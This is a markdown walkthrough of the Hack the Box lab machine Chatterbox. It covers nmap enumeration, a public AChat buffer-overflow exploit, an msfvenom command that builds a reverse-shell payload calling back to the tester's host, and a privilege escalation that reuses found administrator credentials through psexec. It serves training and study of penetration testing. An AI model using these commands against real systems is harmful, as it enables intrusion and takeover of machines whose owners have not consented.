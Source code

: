 ```yaml
---
title: Hack the Box - Chatterbox
date: 2022-10-06 12:00:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Chatterbox](/assets/HackTheBox/Chatterbox/Chatterbox.png)

# Bounty Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.74|Chatterbox|Windows|

## Path to Exploitation

To complete Chatterbox we'll start by leveraging a buffer overflow vulnerability in an outdated chat server with a publicly available exploit. Once we modify the payload in the script we'll get a reverse shell back on our machine. To escalate our privileges, we'll reuse a weak password that we were able to identify and gain access to the administrator account. 

# Chatterbox Enumeration

## Full Port Scan

```shell
$ nmap 10.10.10.74 -p- -oA Chatterbox/nmap/full-port --open -Pn -vv
```

Which Resulted In:

|PORT|SERVICE|
|----|-------|
|9255|mon|
|9256|unknown|
|49152|unknown|
|49153|unknown|
|49154|unknown|
|49155|unknown|
|49156|unknown|
|49157|unknown|

## Service Scan

```shell
$ nmap 10.10.10.74 -p 9255,9256,49152,49153,49154,49155,49156,49157 -sC -sV -oA Chatterbox/nmap/service-scan -Pn
```

Which Resulting In:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|9255|http|chat system httpd|
|9256|achat|chat system|
|49152|msrpc|Windows RPC|
|49153|msrpc|Windows RPC|
|49154|msrpc|Windows RPC|
|49155|msrpc|Windows RPC|
|49156|msrpc|Windows RPC|
|49157|msrpc|Windows RPC|

# Exploiting the AChat Server

I did a simple google search of this AChat service and found a potential exploit that I could use. The [exploit](https://www.exploit-db.com/exploits/36025) is a remote buffer overflow.

Inside the script we see the command needed to generate the payload

```shell
$ msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

We'll need to modify this command to create a reverse shell payload instead of executing calc.exe

```shell
$ msfvenom -p windows/shell_reverse_tcp -a x86 --platform Windows LHOST=10.10.14.8 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

After creating this payload and modifying the script with it, we can setup a nc listener and launch the exploit

```shell
$ python exploit.py
```

Checking back on the listener we see we have a shell as alfred

![Initial Foothold](/assets/HackTheBox/Chatterbox/initial-foothold.png)

# Privilege Escalation

Running winpeas we identify a set of Autologon credentials

![Credentials](/assets/HackTheBox/Chatterbox/autologon-creds.png)

We can try re-using this password with the administrator account using PsExec

```shell
$ python /home/pharo/.local/bin/psexec.py Administrator:"Welcome1\!"@10.10.10.74
```

![Privilege Escalation](/assets/HackTheBox/Chatterbox/priv-esc.png)

We can see that we now have a session running as SYSTEM.